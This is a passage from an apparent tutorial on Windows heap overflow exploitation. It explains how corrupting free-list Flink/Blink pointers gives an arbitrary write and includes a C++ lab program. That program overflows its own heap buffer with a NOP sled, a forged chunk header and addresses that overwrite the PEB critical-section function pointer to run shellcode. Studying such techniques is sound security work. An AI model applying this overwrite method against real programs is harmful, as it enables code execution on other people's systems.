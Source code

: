 ```CPP
    //(h5)
    h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
    return 0;
}
```

#### found

- At the time of h1 application to h5 space, if at this time h5 has been overflowed to cover Blink and Flink, then it will write [Flink] to [Blink]

### Code implantation

#### Principle

- Target the PEB synchronization function pointer RtlEnterCriticalSection of the ExitProcess call, and execute the shellcode after the exception is raised by the heap overflow within the program

#### Code Example 1 (Observe Exception)

```CPP
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"
"\x88\x06\x36\x00" // ShellCode起始地址
"\x20\xF0\xFD\x7F"; // PEB同步函数指针位置

int main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0,0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    __asm int 3 //used to break process
    memcpy(h1, shellcode, 0x200); //overflow,0x200=512
    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    return 0;
}
```

